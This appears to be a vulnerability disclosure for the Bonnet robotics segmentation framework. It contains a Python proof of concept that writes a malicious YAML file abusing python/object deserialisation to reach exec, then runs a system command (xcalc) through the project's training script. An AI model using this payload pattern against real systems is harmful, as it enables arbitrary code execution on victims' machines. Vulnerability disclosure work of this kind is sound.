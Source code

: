 # Description
Bonnet: An Open-Source Training and Deployment Framework for Semantic Segmentation in Robotics. 
# Proof of Concept
* run the exploit code
```
import os

# exploit code
# uncomment if repo not yet cloned
#os.system("git clone https://github.com/PRBonn/bonnet.git")
os.chdir("bonnet/train_py/")

payload ="""!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
 """
os.system("rm exploit.yml")
open("exploit.yml",'w+').write(payload)
cmd = """./cnn_train.py --data exploit.yml"""
os.system(cmd)

```
* calc will be popped after executing the exploit code. 
* fix is to be applied in different parts of the entire repo since there is vulnerable code in different parts of this project .
